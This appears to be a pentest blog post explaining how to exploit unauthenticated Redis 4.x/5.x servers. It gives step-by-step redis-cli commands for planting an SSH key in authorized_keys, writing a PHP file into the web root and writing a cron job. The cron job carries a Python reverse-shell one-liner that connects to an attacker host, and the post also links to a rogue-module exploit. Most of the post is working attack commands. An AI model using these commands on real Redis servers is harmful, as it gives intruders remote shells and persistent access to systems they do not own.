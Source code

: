 ```yaml
---
title: Redis 4.x /5.x Unauthenticated Exploit
published: True
---
```

  
# Overview

Redis is an open source, in-memory data structure store that acts as a database, cache, and message broker. It's often used to speed up web applications by caching frequently accessed information in memory. The default port is 6379/tcp. There are three types of authentication: no credentials by default, password only, username:password. Redis versions 4.x / 5.x are vulnerable to the execution of arbitrary commands. Redis is often placed in internal network, so if it is an old version and exposed in public network without password protection, then it would be a disaster, but there are still many exposed Redis servers in real word. Attackers are able to get remote execution on redis through various methods. Here are some techniques for exploitation. 

# Exploitation

A common command-line tool for interacting with Redis is `redis-cli` 

Install command:`sudo apt-get install redis-tools`

## SSH

If we know a valid username or redis directory path, and target has ssh service open, we can write public key to file and then ssh to target.

https://github.com/iw00tr00t/Redis-Server-Exploit/tree/master

Exploit manually:

1. We first generate an ssh key pair.
2. Then write to the file. Note that `\n\n` is needed here for split keys
3. Import public key to server by setting value
4. Get user's ssh path with command `config get dir` and set dir to ssh directory
    
    Common directories are `/var/lib/redis/.ssh`  `/root/.ssh` `/home/redis/.ssh`
    
5. Save and ssh to target with private key.

```jsx
$ ssh-keygen -t rsa
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > pub.txt
$ cat pub.txt | redis-cli -h <IP> -x set ssh_key
$ redis-cli -h <IP>
> config set dir /var/lib/redis/.ssh
OK
> config set dbfilename "authorized_keys"
OK
> save
OK
```

## Compile Redis Module

First we compile an exec module and then load this module when interacting with redis. We can execute arbitrary command and get reverse shell on target. This exploit has been tested on Redis 5.0.9 and works perfectly.

> https://github.com/vulhub/redis-rogue-getshell
> 

A full explanation of the command exec module can be found here.

> https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
> 

![](../assets/images/Redis-4.x-5.x-Unauthenticated-Exploit/screenshot.png)

## PHP Webshell

We can also upload webshell if we know web server’s path. Then we access `http://<IP>/phpinfo.php`

```jsx
redis-cli -h 10.85.0.52
> config set dir /usr/share/nginx/html
// > config set dir /var/www/html
OK
> config set dbfilename phpinfo.php
OK
> set test "<?php phpinfo(); ?>"
OK
> save
OK
```

## Crontab

We can write reverse shell payload to crontabs. Payloads can be found here. `https://www.revshells.com/`

```jsx
$ echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h <IP> -x set 1
OK
$ redis-cli -h <IP>
> config set dir /var/spool/cron/crontabs/
// /var/spool/cron/ for centos
OK
> config set dbfilename root
OK
> save
OK
```